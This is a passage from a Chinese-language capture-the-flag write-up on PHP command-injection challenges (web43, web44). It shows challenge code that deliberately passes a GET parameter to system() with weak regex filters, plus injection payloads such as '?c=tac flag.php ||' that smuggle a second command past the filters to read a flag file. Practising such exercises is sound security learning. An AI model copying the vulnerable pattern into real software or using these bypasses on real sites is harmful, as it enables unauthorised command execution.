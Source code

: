 现在看题，重点在于> /dev/null 2>&1

/dev/null为linux系统回收站，数据会被直接丢弃

2>&1则是将错误输出重定向到标准输出，如此一来便不会回显到显示器上。

所以采用命令把flag打印出来，利用；分隔分化一下命令，如此便能使其回显出来。

本题中输入?c=ls;ls，显示文件目录

?c=tac flag.php;ls，拿到flag



### web43

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:32:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

这次不许有分号，也不许有cat。tac不受影响，分号的分化分割作用可以用||代替。

payload:?c=tac flag.php ||



### web44

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:32:01
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/;|cat|flag/i", $c)){
        system($c." >/dev/null 2>&1");
    }
```